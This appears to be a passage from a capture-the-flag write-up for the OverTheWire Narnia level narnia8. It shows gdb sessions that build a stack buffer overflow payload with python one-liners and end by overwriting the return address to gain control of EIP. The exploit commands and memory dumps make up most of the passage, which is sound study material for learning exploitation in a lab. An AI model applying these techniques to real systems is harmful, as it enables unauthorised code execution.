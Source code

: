 ```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x70\xd8"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x70\xd8"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd870
0xffffd67c:	0xffffd688	0x080484a7	0xffffd86f	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
```

Okay, the address shifted down again to `0xffffd86f`. I followed the pattern util I was able to to overwrite the address of our string and continue to write on the stack :

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x69\xd8\xff\xff" + "AAAA"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x69\xd8\xff\xff" + "AAAA"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd869
0xffffd67c:	0x41414141	0x080484a7	0xffffd869	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
```

The trick to remember is that you have to decrease the address of the string by 1 byte each time you add a byte to the payload. Let's finish that by overwriting the return address :

```nasm
(gdb) run $(python -c 'print 20 * "A" + "\x65\xd8\xff\xff" + "AAAA" + "CCCC"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia8 $(python -c 'print 20 * "A" + "\x65\xd8\xff\xff" + "AAAA" + "CCCC"')

Breakpoint 1, 0x08048485 in func ()
(gdb) x/16x $esp
0xffffd65c:	0x08048550	0xffffd664	0x41414141	0x41414141
0xffffd66c:	0x41414141	0x41414141	0x41414141	0xffffd865
0xffffd67c:	0x41414141	0x43434343	0xffffd865	0x00000000
0xffffd68c:	0xf7e2a286	0x00000002	0xffffd724	0xffffd730
(gdb) continue
Continuing.
AAAAAAAAAAAAAAAAAAAAe���AAAACCCCe���

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb) x/x $eip
0x43434343:	Cannot access memory at address 0x43434343
```
